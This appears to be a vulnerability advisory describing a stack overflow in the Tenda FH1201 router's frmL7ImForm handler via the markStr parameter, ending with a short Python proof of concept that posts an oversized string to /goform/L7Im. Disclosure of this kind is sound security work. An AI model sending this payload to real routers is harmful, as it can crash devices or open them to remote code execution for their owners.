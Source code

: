 # Tenda FH1201 frmL7ImForm_markStr
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the markStr parameter in the frmL7ImForm function.
### Vulnerability details
In function frmL7ImForm line 17, it reads in a user-provided parameter `markStr`, and the variable `s` is passed as a parameter to the `Saveqqlist` function. In `Saveqqlist` function, the variable `s_2` is assigned to the variable `s`, and the variable `s` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/8.png)
![](images/6.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Im"

data = {
    "markStr": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/9.png)
